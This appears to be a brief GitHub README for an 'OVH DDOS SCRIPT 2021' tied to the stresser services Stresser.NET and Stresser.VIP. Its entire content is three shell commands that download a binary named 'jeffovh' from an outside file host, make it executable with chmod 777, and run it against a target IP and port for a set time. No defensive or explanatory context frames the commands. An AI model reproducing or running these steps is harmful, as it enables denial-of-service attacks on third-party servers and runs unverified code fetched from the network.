 # OVH-DDOS-2021
Stresser.NET & Stresser.VIP  // OVH DDOS SCRIPT 2021 


wget http://upload.vina-host.com/10yiIS/jeffovh

chmod 777 jeffovh

./jeffovh IP PORT 10 -1 (Time)
